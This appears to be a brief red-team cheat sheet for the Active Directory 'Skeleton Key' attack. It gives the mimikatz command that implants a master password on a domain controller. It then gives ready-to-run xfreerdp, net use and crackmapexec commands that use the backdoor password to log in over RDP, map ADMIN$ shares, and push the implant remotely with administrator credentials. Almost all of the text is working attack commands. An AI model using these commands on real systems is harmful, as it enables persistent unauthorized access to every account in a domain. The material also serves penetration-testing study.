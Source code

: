 # Skeleton Key

    mimikatz "privilege::debug" "misc::skeleton" "exit" (Password is mimikatz)

## Usage:

### 1) RDP

    xfreerdp /v:<IP> /u:<User> /p:<mimikatz> /d:<Domain> #Syntax
    xfreerdp /v:10.10.10.9 /u:CEO /p:mimikatz /d:security.local

### 2) Mapping Remote Shares

    net use <DriveLetter:> \\<IP>\<Share> /user:<User> mimikatz #Syntax
    net use Z: \\10.10.10.9\ADMIN$ /user:Administrator mimikatz

### 3) CrackmapExec/Netexec

    crackmapexec smb 10.10.10.10 -u 'Administrator' -p 'Password123!' -M mimikatz -o COMMAND='misc::skeleton'

